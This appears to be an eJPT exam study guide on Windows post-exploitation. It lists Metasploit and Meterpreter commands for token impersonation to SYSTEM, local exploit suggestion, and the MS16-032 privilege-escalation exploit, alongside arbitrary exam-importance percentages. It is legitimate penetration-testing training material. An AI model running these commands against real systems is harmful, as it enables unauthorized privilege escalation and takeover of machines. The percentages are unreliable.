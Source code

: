 #### **🚀 WinRM Exploitation Complete! Results:**
- **Meterpreter Session Established** - Interactive shell access
- **Administrator Privileges** - High-level system access
- **VBS Method Success** - FORCE_VBS worked perfectly
- **Remote System Control** - Complete access to target system

---

## 🎯 eJPT Exam Success Guide

### **📊 How Important This Is for eJPT:**

Critical skill importance ratings for eJPT exam success:

- **Token Impersonation:** 90% - Core Windows post-exploitation skill
- **Local Exploit Suggester:** 85% - Automated vulnerability identification  
- **Service Enumeration:** 80% - Manual privilege escalation techniques
- **WinRM Exploitation:** 75% - Remote Windows management abuse
- **UAC Bypass:** 70% - User Access Control evasion

### **🏆 Commands You MUST Know for eJPT:**

#### **Level 1 - You WILL See This (100% Chance):**
```bash
# Check current privileges
meterpreter > getuid
# Expected: Shows current user context

# Load token impersonation
meterpreter > load incognito
# Expected: Incognito module loaded successfully

# List available tokens  
meterpreter > list_tokens -u
# Expected: Shows delegation and impersonation tokens

# Steal highest privilege token
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
# Expected: Token impersonation successful
```

#### **Level 2 - Very Likely (85% Chance):**
```bash
# Automated vulnerability detection
meterpreter > background
use post/multi/recon/local_exploit_suggester
set SESSION 1
exploit
# Expected: List of potential local exploits

# Execute suggested exploit
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION 1
exploit  
# Expected: New elevated meterpreter session

# Verify elevated privileges
meterpreter > getprivs
# Expected: List of enabled system privileges
```
